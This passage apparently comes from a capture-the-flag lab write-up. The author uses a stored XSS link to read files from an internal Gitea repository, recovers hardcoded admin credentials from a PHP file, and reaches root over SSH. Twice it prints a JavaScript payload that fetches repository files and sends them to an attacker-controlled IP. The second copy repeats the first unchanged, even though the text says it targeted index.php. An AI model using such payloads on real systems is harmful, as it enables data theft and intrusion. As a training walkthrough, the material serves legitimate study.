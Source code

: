 But it didnt work as expected , but i got a callback so need to plan other idea 

Again , i went to read the second mail , i remember they talked about private repo..

I tried to read the README.md file by using this payload and it worked

```html
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.14.17:1111/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

![](/assets/images/Pasted%20image%2020250203063003.png)

When i decrypt , it useless info

I tried to access index.php since it is the most common path 

```html
<a href='javascript:fetch("http://localhost:3000/administrator/Employee-management/raw/branch/main/README.md").then(response=>response.text()).then(data=>fetch("http://10.10.14.17:1111/?d="+encodeURIComponent(btoa(unescape(encodeURIComponent(data))))));'>XSS test</a>
```

![](/assets/images/Pasted%20image%2020250203064959.png)
It returned with some large data , when i decrypt 

```php
<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
exit;
```

I got admin creds for the application , i tried to login in gitea but it didnt worked 

checked for SSH as root and it worked 

![](/assets/images/Pasted%20image%2020250203065322.png)
